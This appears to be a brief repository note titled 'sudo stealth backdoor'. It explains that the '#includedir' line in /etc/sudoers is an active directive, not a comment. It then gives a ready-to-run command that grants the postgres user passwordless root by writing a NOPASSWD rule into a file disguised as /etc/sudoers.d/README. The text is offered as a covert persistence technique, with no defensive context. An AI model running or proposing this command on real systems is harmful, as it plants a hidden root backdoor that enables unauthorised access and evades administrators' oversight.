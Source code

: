 sudo "stealth" backdoor
======================

Take advantage of sudoers "include" directive.

Check last few lines of /etc/sudoers file, "includedir" start with "#"
caracter, but does not mean comment.

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d

Add to postgres user a "backdooor" to root account!
sudo su -c "echo 'postgres ALL = NOPASSWD: ALL' >> /etc/sudoers.d/README"

